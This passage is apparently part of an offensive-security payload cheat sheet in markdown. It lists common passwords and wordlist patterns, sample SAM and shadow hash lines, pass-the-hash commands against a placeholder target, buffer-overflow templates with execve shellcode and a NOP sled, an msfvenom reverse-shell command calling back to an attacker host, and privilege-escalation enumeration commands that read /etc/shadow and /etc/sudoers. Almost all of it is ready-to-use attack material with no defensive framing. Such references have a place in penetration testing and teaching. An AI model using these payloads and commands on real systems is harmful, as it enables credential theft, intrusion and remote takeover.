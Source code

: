 ```
# Common password patterns
password123
Password1
company2024
admin2024
Welcome1
P@ssw0rd
123456
password
qwerty
letmein

# Wordlist generation patterns
[company_name][year]
[name][birth_year]
[common_word][numbers]
[season][year]
```

### Hash Injection Payloads
```
# Windows SAM hash formats
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::

# Linux shadow file formats
root:$6$salt$hash:18000:0:99999:7:::
user:$6$salt$hash:18000:0:99999:7:::

# Pass-the-hash attack vectors
pth-winexe -U domain/user%aad3b435b51404ee:hash //target-ip cmd.exe
python psexec.py domain/user@target-ip -hashes aad3b435b51404ee:hash
```

### Buffer Overflow Payloads
```python
# Basic buffer overflow pattern
payload = "A" * offset + "B" * 4 + "C" * 100

# Shellcode injection
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"
nop_sled = "\x90" * 100
payload = nop_sled + shellcode + "A" * (offset - len(nop_sled) - len(shellcode)) + struct.pack("<I", return_address)

# Windows reverse shell payload
msfvenom -p windows/shell_reverse_tcp LHOST=attacker-ip LPORT=4444 -f python
```

### Privilege Escalation Payloads
```bash
# Linux privilege escalation checks
sudo -l
find / -perm -u=s -type f 2>/dev/null
find / -perm -g=s -type f 2>/dev/null
cat /etc/passwd
cat /etc/shadow
cat /etc/sudoers
ps aux
netstat -antup
ls -la /home/
crontab -l
```